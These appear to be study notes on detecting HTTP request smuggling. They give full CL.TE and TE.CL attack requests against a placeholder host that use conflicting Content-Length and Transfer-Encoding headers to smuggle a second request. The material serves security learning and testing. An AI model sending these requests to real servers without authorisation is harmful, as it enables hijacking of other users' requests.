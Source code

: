 eg - normal request looks like:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- This request normally receives an HTTP response with status code 200, containing some search results
- attack request depends on variant of whether CL.TE vs TE.CL

#### Confirming CL.TE

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

- if the attack is successful, the last two lines of the request are treated by the back-end server as belonging to the next request that is received and cause the subsequent normal request to look like this

```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

- the request contains an invalid URL, the server will response with status code 404

#### Confirming TE.CL

- attack request like this:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0


```